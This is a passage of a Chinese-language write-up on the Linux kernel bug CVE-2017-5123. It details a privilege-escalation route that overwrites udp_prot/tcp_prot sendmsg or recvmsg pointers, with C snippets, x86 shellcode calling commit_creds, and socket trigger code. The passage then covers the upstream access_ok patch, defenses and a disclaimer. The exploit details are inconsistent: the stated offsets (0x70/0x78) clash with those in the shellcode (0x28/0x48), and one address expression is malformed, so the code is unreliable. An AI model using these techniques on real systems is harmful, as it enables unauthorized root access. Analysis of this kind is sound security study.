	.sockets_allocated	= &tcp_sockets_allocated,	/* 已分配socket计数 */
	.orphan_count		= &tcp_orphan_count,	/* 孤儿连接计数 */
	.memory_allocated	= &tcp_memory_allocated,	/* 已分配内存 */
	.memory_pressure	= &tcp_memory_pressure,	/* 内存压力 */
	.sysctl_mem		= sysctl_tcp_mem,	/* sysctl内存设置 */
	.sysctl_wmem		= sysctl_tcp_wmem,	/* 写缓冲区设置 */
	.sysctl_rmem		= sysctl_tcp_rmem,	/* 读缓冲区设置 */
	.max_header		= MAX_TCP_HEADER,	/* 最大头部大小 */
	.obj_size		= sizeof(struct tcp_sock),	/* 对象大小 */
	.slab_flags		= SLAB_TYPESAFE_BY_RCU,	/* slab分配器标志 */
	.twsk_prot		= &tcp_timewait_sock_ops,	/* 时间等待socket操作 */
	.rsk_prot		= &tcp_request_sock_ops,	/* 请求socket操作 */
	.h.hashinfo		= &tcp_hashinfo,	/* hash信息 */
	.no_autobind		= true,		/* 禁用自动绑定 */
#ifdef CONFIG_COMPAT
	.compat_setsockopt	= compat_tcp_setsockopt,	/* 兼容模式设置选项 */
	.compat_getsockopt	= compat_tcp_getsockopt,	/* 兼容模式获取选项 */
#endif
	.diag_destroy		= tcp_abort,	/* 诊断销毁 */
};
EXPORT_SYMBOL(tcp_prot);	/* 导出符号，全局可见 */
```

### 6-3. 利用原理

`udp_prot`和`tcp_prot`结构体是Linux内核网络协议栈的核心组成部分，通过`EXPORT_SYMBOL`宏导出，全局可访问。利用思路是通过 **CVE-2017-5123** 漏洞修改这两个结构体中的`sendmsg`或`recvmsg`函数指针，使其指向用户空间控制的shellcode地址（如0x100000000）。当应用程序通过socket进行网络数据发送或接收时，内核会调用被篡改的函数指针，从而执行shellcode。

**技术优势**：

1. **高触发频率**：网络操作极其常见，任何网络通信都可能触发
2. **灵活选择**：可以选择UDP或TCP协议，适应不同的网络环境
3. **多目标选择**：可以选择修改`sendmsg`或`recvmsg`，提供冗余利用路径
4. **结构体稳定性**：这两个结构体是网络协议栈的基础，地址相对稳定

### 6-4. 利用步骤详解

#### 6-4-1. 信息收集与准备

- **获取内核符号地址**：需要解析`udp_prot`、`tcp_prot`的准确地址，以及原始的`udp_sendmsg`、`udp_recvmsg`、`tcp_sendmsg`、`tcp_recvmsg`函数地址
- **计算偏移量**：精确计算目标函数指针在结构体中的偏移
- **权限提升函数**：获取`commit_creds`和`prepare_kernel_cred`函数地址
- **内存布局**：在用户空间0x100000000地址分配可执行内存，部署shellcode

#### 6-4-2. 函数指针篡改

通过 **CVE-2017-5123** 漏洞修改目标函数指针。关键偏移量如下：

- `udp_prot.sendmsg`偏移：0x70（112字节）
- `udp_prot.recvmsg`偏移：0x78（120字节）
- `tcp_prot.sendmsg`偏移：0x70（112字节）
- `tcp_prot.recvmsg`偏移：0x78（120字节）

**地址写入策略**：

```c
// 示例：修改udp_prot.sendmsg
siginfo_t *target_ptr = (siginfo_t *)(udp_prot_addr + + 4 + 8 * 13);
waitid(P_PID, child_pid, target_ptr, WEXITED);
```

#### 6-4-3. Shellcode设计

shellcode需要完成以下任务：

1. 保存寄存器状态，避免破坏网络协议栈执行环境
2. 恢复被篡改的`sendmsg`或`recvmsg`函数指针
3. 调用`commit_creds(prepare_kernel_cred(0))`提升权限
4. 恢复寄存器状态，安全返回到内核继续执行网络操作
5. 最终返回到用户空间

**示例shellcode结构**：

```assembly
shellcode_start:
    ; 保存关键寄存器
    push rax
    push rbx
    push rcx
    push rdx
    push rsi
    push rdi

    ; 恢复udp_prot.sendmsg指针
    mov rdi, [udp_prot_addr]       ; 获取udp_prot地址
    mov rsi, [original_udp_sendmsg] ; 获取原始udp_sendmsg地址
    mov qword ptr [rdi+0x28], rsi  ; 恢复sendmsg指针

    ; 或恢复tcp_prot.recvmsg指针
    ; mov rdi, [tcp_prot_addr]
    ; mov rsi, [original_tcp_recvmsg]
    ; mov qword ptr [rdi+0x48], rsi

    ; 权限提升
    xor rdi, rdi                   ; prepare_kernel_cred参数为0
    call [prepare_kernel_cred]
    mov rdi, rax                   ; commit_creds参数
    call [commit_creds]

    ; 恢复寄存器
    pop rdi
    pop rsi
    pop rdx
    pop rcx
    pop rbx
    pop rax

    ; 跳转到原始函数继续执行
    jmp [original_udp_sendmsg]    ; 或original_tcp_recvmsg
```

#### 6-4-4. 触发机制

创建socket并执行网络操作触发执行：

```c
// UDP触发示例
int udp_sock = socket(AF_INET, SOCK_DGRAM, 0);
if (udp_sock < 0) {
    perror("socket");
    return -1;
}

// 设置目标地址
struct sockaddr_in addr = {0};
addr.sin_family = AF_INET;
addr.sin_port = htons(53);  // DNS端口
inet_pton(AF_INET, "8.8.8.8", &addr.sin_addr);

// 触发sendmsg（如果篡改了sendmsg指针）
char buffer[] = "test";
sendto(udp_sock, buffer, sizeof(buffer), 0,
       (struct sockaddr*)&addr, sizeof(addr));

// 或触发recvmsg（如果篡改了recvmsg指针）
char recv_buffer[1024];
recvfrom(udp_sock, recv_buffer, sizeof(recv_buffer), 0, NULL, NULL);
```

```c
// TCP触发示例
int tcp_sock = socket(AF_INET, SOCK_STREAM, 0);
if (tcp_sock < 0) {
    perror("socket");
    return -1;
}

// 尝试连接（会触发TCP协议栈操作）
struct sockaddr_in addr = {0};
addr.sin_family = AF_INET;
addr.sin_port = htons(80);  // HTTP端口
inet_pton(AF_INET, "8.8.8.8", &addr.sin_addr);

connect(tcp_sock, (struct sockaddr*)&addr, sizeof(addr));

// 发送或接收数据触发执行
char buffer[] = "GET / HTTP/1.0\r\n\r\n";
send(tcp_sock, buffer, sizeof(buffer), 0);
```

### 6-5. 利用流程时序图

以下时序图展示了完整的利用过程：



### 6-6. 技术挑战与解决方案

**挑战1：协议栈并发访问**

- **问题**：网络协议栈是高度并发的，多个线程可能同时访问`udp_prot`/`tcp_prot`
- **解决方案**：
    - 在shellcode中尽快恢复指针，减少竞态条件窗口
    - 使用原子操作或锁机制确保一致性
    - 考虑在非高峰时段执行利用

**挑战2：网络连接状态**

- **问题**：网络操作依赖连接状态，可能无法立即触发目标函数
- **解决方案**：
    - 创建完整的socket连接确保函数被调用
    - 使用可靠的触发路径（如DNS查询、HTTP请求）
    - 准备多种触发方式增加成功率

**挑战3：防火墙和网络策略**

- **问题**：系统可能阻止出站网络连接
- **解决方案**：
    - 使用本地回环地址（127.0.0.1）进行通信
    - 创建UNIX域socket（如果支持）
    - 利用现有网络连接

### 6-7. 系统影响与稳定性考虑

1. **网络服务连续性**：
    - Shellcode必须快速恢复被篡改的函数指针
    - 避免破坏网络连接状态
    - 确保数据传输的完整性

2. **错误处理**：
    - 处理网络操作失败的情况
    - 提供安全的错误返回路径
    - 记录错误信息便于调试

3. **性能影响**：
    - 最小化shellcode执行时间
    - 避免内存分配和复杂计算
    - 保持网络吞吐量稳定

### 6-8. 防御与检测

1. **漏洞修复**：
    - 应用内核安全补丁，添加`access_ok()`检查
    - 启用KASLR增加地址预测难度
    - 使用内核地址空间布局随机化

2. **运行时监控**：
    - 监控关键内核结构体修改
    - 检测异常的网络协议栈行为
    - 使用eBPF进行网络栈行为分析

3. **安全加固**：
    - 限制对内核符号表的访问
    - 启用内核模块签名验证
    - 使用安全启动和完整性测量

4. **网络监控**：
    - 监控异常的网络socket操作
    - 检测非预期的内核地址调用
    - 使用网络入侵检测系统

### 6-9. 技术总结

利用思路三展示了通过篡改网络协议栈核心结构体实现权限提升的方法。与之前的利用思路相比，这种方法的优势在于网络操作的普遍性和高触发频率。然而，它也面临网络协议栈的复杂性、并发访问和连接状态管理等挑战。

成功的利用需要精确的内核符号信息、精心设计的shellcode和稳定的网络触发机制。这个案例进一步强调了 **CVE-2017-5123** 漏洞的严重性，以及在内核开发中严格验证用户空间指针的重要性。

同时，这也凸显了全面网络安全防御的多层次性，包括及时的安全更新、运行时监控、网络行为分析和系统完整性保护。只有通过综合的防御措施，才能有效应对此类复杂的内核级漏洞利用。

### 6-10. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 7. 漏洞修复

### 7-1. 修复补丁详解

修复此漏洞的补丁非常简单，其核心就是在向 `infop` 指向的地址写入数据之前，插入对 `access_ok(VERIFY_WRITE, ...)` 的调用。补丁以 `diff` 格式清晰地展示了修改内容，同时修复了原生 64 位系统调用和 32 位兼容模式系统调用。

```diff
--- a/kernel/exit.c
+++ b/kernel/exit.c
@@ -1610,6 +1610,9 @@ SYSCALL_DEFINE5(waitid, int, which, pid_t, upid, struct siginfo __user *,
 	if (!infop)
 		return err;

+	if (!access_ok(VERIFY_WRITE, infop, sizeof(*infop)))
+		goto Efault;
+
 	user_access_begin();
 	unsafe_put_user(signo, &infop->si_signo, Efault);
 	unsafe_put_user(0, &infop->si_errno, Efault);
@@ -1735,6 +1738,9 @@ COMPAT_SYSCALL_DEFINE5(waitid,
 	if (!infop)
 		return err;

+	if (!access_ok(VERIFY_WRITE, infop, sizeof(*infop)))
+		goto Efault;
+
 	user_access_begin();
 	unsafe_put_user(signo, &infop->si_signo, Efault);
 	unsafe_put_user(0, &infop->si_errno, Efault);
```

### 7-2. 修复后的代码逻辑

应用补丁后，`SYSCALL_DEFINE5(waitid, ...)` 的关键部分逻辑修正如下：

```c
SYSCALL_DEFINE5(waitid, int, which, pid_t, upid, struct siginfo __user *,
		infop, int, options, struct rusage __user *, ru)
{
	/* ... 变量声明与初始化，调用 kernel_waitid ... */

	if (err > 0) {
		/* ... 处理成功等待 ... */
	}
	if (!infop)
		return err;

	/* --- 修复的核心：添加权限检查屏障 --- */
	/* 调用 access_ok 验证：
	   1. `infop` 是否指向一个当前进程可访问的用户空间地址范围。
	   2. 对该地址范围的 `sizeof(siginfo_t)` 字节是否拥有写入 (VERIFY_WRITE) 权限。
	   如果 `infop` 是一个内核地址，此检查将失败。 */
	if (!access_ok(VERIFY_WRITE, infop, sizeof(*infop)))
		goto Efault; /* 检查失败，拒绝执行写入操作 */

	/* 只有通过上述检查，才允许进行可能危险的用户空间写入 */
	user_access_begin();
	unsafe_put_user(signo, &infop->si_signo, Efault);
	/* ... 其他 unsafe_put_user 调用 ... */
	user_access_end();
	return err;
Efault:
	user_access_end();
	return -EFAULT; /* 返回“错误地址”给用户空间 */
}
```

### 7-3. 修复原理详解

修复方案体现了内核安全编程的几项基本原则：

1.  **不信任用户输入**：所有从用户空间传入内核的指针都必须被视为潜在恶意的，在使用前必须经过严格验证。
2.  **权限最小化与早期拒绝**：在操作执行路径的**最早**时机进行安全检查。如果 `infop` 指针无效，修复后的代码会在 `user_access_begin()` 之前就失败并返回 `-EFAULT`，避免了任何不必要的内核状态改变和对 `unsafe_` 例程的调用。
3.  **使用正确的验证原语**：`access_ok()` 是内核中专门用于验证用户空间指针有效性的宏。参数 `VERIFY_WRITE` 明确要求验证写入权限，这能有效阻止恶意利用者传入内核地址或只读的用户地址。
4.  **全面覆盖**：补丁同时修改了 `SYSCALL_DEFINE5` 和 `COMPAT_SYSCALL_DEFINE5`，确保了 64 位和 32 位兼容模式下的系统调用都得到了保护，消除了架构间的安全差异。

### 7-4. 技术总结

**CVE-2017-5123** 是一个经典的“缺少用户指针输入验证”类内核漏洞。其根本原因是在使用高性能但“不安全”的内存拷贝原语（`unsafe_put_user`）时，遗漏了前置的指针有效性检查（`access_ok`）。这使得恶意利用者能够诱使内核向一个由利用者指定的、本不应被写入的地址（特别是内核空间地址）写入数据。

修复方案简洁而有效，通过添加两行关键的 `access_ok()` 检查，建立了可靠的安全边界。这个案例为内核开发者提供了重要的教训：

- 在使用 `unsafe_` 前缀的辅助函数时，必须手动承担起验证指针安全性的责任。
- 用户空间与内核空间之间的边界检查是系统安全基石，任何疏忽都可能导致严重的权限提升漏洞。
- 安全修复需要涵盖所有相关的代码路径（如原生调用和兼容模式调用），以确保漏洞被彻底消除。

## 8. 免责声明

本文档旨在提供 **CVE-2017-5123** 漏洞的技术分析与教育性内容，仅供学习、研究和安全防御目的使用。作者与发布平台对以下事项声明如下：

1. **合法使用原则**：本文档中描述的任何技术细节、代码示例或利用方法仅供教育研究之用。读者不得将这些信息用于任何非法、未经授权或恶意的活动，包括但不限于未经授权的系统入侵、数据破坏、服务干扰或其他违反法律法规的行为。

2. **知识共享与责任**：本文档基于公开可获取的信息、官方漏洞公告和学术研究资料编写。作者力求确保技术内容的准确性，但不对信息的完整性、时效性或适用性作任何明示或暗示的保证。读者应自行验证信息的准确性，并在专业环境中谨慎应用。

3. **环境限制**：所有技术分析和实验应在受控的、隔离的测试环境中进行，例如使用特制的虚拟机或专用硬件。禁止在任何生产环境、公共网络或他人系统中尝试漏洞利用或相关技术。

4. **法律合规性**：读者应遵守所在国家或地区的所有适用法律法规，包括但不限于计算机安全法、数据保护法和知识产权法。任何使用本文档内容的行为所产生的法律后果，由行为者自行承担。

5. **技术中立性**：本文档对漏洞的分析保持技术中立立场，旨在促进安全社区的防御能力提升。文中提及的任何工具、技术或方法不应被视为对任何组织、产品或技术的背书或批判。

6. **更新与修正**：技术领域发展迅速，本文档内容可能随时间而过时。作者保留更新、修正或撤回文档内容的权利，不承诺另行通知。

7. **版权声明**：本文档内容受版权法保护，未经明确书面许可，不得用于商业目的。允许在注明出处的前提下进行非商业性的分享与引用。

**重要提示**：安全研究应始终遵循道德准则，以提升整体网络安全为目标。如发现安全漏洞，建议通过负责任的披露流程向相关厂商或机构报告，共同维护数字生态的安全与稳定。

---

_本文档的撰写参考了公开的漏洞公告、内核源码（Linux 4.14-rc4）及相关技术分析文献。所有实验均在封闭的测试环境中完成，未对任何实际系统造成影响。_

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/CVE-2017-5123_V3
- https://github.com/BinRacer/pwn4kernel/tree/master/src/CVE-2017-5123_V4
- https://github.com/BinRacer/pwn4kernel/tree/master/src/CVE-2017-5123_V5
- https://bsauce.github.io/2021/05/31/CVE-2017-5123
- https://xz.aliyun.com/news/10816
- https://nvd.nist.gov/vuln/detail/CVE-2017-5123
- https://ubuntu.com/security/CVE-2017-5123
- https://openwall.com/lists/oss-security/2017/10/12/18
- https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=96ca579a1ecc943b75beba58bebb0356f6cc4b51
- https://github.com/nongiach/CVE/blob/master/CVE-2017-5123/exploit/exploit_null_ptr_deref.c
- https://arttnba3.cn/2021/08/03/CVE-0X02-CVE-2017-5123/#
